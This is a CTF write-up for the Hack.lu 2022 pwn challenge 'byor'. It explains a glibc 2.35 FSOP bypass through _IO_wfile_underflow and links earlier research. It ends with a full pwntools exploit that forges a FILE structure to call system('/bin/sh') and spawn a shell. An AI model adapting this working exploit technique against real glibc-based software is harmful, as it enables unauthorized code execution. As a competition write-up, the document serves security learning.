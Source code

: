 ## byor
was a pwn challenge from Hack.lu 2022 edition

the challenge give us a leak of stdout address in libc

and permit us to overwrite `stdout`.

the goal was to bypass all new protections in libc-2.35 to revive FSOP code execution..

kylebot made some wonderfull research on this task,

by exploring the various path to achieve code execution with angr,

I recommend to read his blog --> [https://blog.kylebot.net/2022/10/22/angry-FSROP/](https://blog.kylebot.net/2022/10/22/angry-FSROP/)

and also the roderick write-ups `house of apple` 1,2 and 3 are great explanation of the attacks and the path taken (too bad I find them after the ctf only...)

[https://www-roderickchan-cn.translate.goog/post/house-of-apple](https://www-roderickchan-cn.translate.goog/post/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-3/?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=fr)

most of the path he found were using `_wide_data` structure to achieve code execution.

so this challenge overwrite `_wide_data` and we have to found a another way to get code execution

a quick look at the reverse:

![](https://github.com/nobodyisnobody/write-ups/raw/main/Hack.lu.CTF.2022/pwn/byor/pics/reverse.png)


working with teammate VoidMercy, and UDP, we found a path via `_IO_wfile_underflow`

and here is the solution to this task..


```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("./byor_patched")
libc = ELF("./libc.so.6")

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

host, port = "flu.xxx", "11801"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

libc.address = int(rcu(': ', '\n'),16)-libc.sym['_IO_2_1_stdout_']
logbase()

# some constants
stdout_lock = libc.address + 0x21ba70	# _IO_stdfile_1_lock  (symbol not exported)
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
# our gadget
gadget = libc.address + 0x0000000000163830 # add rdi, 0x10 ; jmp rcx

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')	# will be at rdi+0x10
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

p.send(bytes(fake))
# enjoy shell
p.interactive()
```

